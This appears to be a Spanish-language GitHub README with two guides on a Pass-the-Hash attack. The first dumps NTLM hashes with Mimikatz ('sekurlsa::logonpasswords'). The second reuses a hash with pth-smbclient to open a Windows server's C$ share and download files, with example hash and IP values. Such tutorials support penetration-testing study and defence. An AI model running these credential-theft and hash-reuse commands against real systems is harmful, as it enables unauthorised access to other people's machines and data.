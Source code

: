 # Pass The Hash con SMBClient

Este repositorio explica cómo utilizar **Pass The Hash (PtH)** para acceder a recursos compartidos SMB en un servidor Windows, extrayendo el hash NTLM desde un equipo Windows y utilizando `pth-smbclient` en una máquina Kali Linux.

## Requisitos
- Acceso a un equipo Windows con privilegios de administrador.
- Una máquina Kali Linux con `pth-toolkit` instalado.
- Conocimientos básicos de PowerShell y Linux.

## Guías
1. [Extraer el hash NTLM en Windows](extract-hash-windows.md)
2. [Usar pth-smbclient en Kali Linux](pth-smbclient-kali.md)

## Scripts
- [Script de PowerShell para extraer hashes con Mimikatz](scripts/mimikatz-extract-hash.ps1)
- [Script de ejemplo para usar pth-smbclient](scripts/pth-smbclient-example.sh)

## Contribuciones
Si encuentras algún error o tienes sugerencias, ¡no dudes en abrir un issue o enviar un pull request!

---

### **2. extract-hash-windows.md**
Guía detallada para extraer el hash NTLM en Windows usando Mimikatz.

```markdown
# Extraer el hash NTLM en Windows

## Requisitos
- Privilegios de administrador en el equipo Windows.
- Herramienta [Mimikatz](https://github.com/gentilkiwi/mimikatz).

## Pasos

1. **Descargar Mimikatz:**
   - Descarga Mimikatz desde su [repositorio oficial](https://github.com/gentilkiwi/mimikatz).

2. **Ejecutar Mimikatz como administrador:**
   - Abre una ventana de PowerShell como administrador.
   - Navega a la carpeta donde descargaste Mimikatz y ejecuta:
     ```powershell
     .\mimikatz.exe
     ```

3. **Extraer hashes NTLM:**
   - Dentro de Mimikatz, ejecuta los siguientes comandos:
     ```bash
     privilege::debug
     sekurlsa::logonpasswords
     ```
   - Busca el hash NTLM del usuario administrador en la salida. Ejemplo:
     ```
     NTLM Hash: 32ED87BDB5FDC5E9CBA88547376818D4
     ```

4. **Guardar el hash:**
   - Anota el hash NTLM para usarlo en Kali Linux.

## Ejemplo de salida de Mimikatz
![Mimikatz Output](images/mimikatz-output.png)
```

---

### **3. pth-smbclient-kali.md**
Guía para usar `pth-smbclient` en Kali Linux.

```markdown
# Usar pth-smbclient en Kali Linux

## Requisitos
- Hash NTLM del usuario administrador.
- Herramienta `pth-toolkit` instalada en Kali Linux.

## Pasos

1. **Instalar pth-toolkit:**
   - Abre una terminal en Kali Linux y ejecuta:
     ```bash
     sudo apt update
     sudo apt install pth-toolkit
     ```

2. **Autenticarse con pth-smbclient:**
   - Usa el siguiente comando para acceder al servidor:
     ```bash
     pth-smbclient //IPDelServidor/RecursoCompartido -U Usuario%HashNTLM
     ```
   - Ejemplo:
     ```bash
     pth-smbclient //192.168.1.10/C$ -U Administrador%32ED87BDB5FDC5E9CBA88547376818D4
     ```

3. **Navegar por los archivos:**
   - Usa comandos como `ls`, `cd`, y `get` para explorar y descargar archivos.

## Ejemplo de salida de pth-smbclient
![pth-smbclient Output](images/pth-smbclient-output.png)
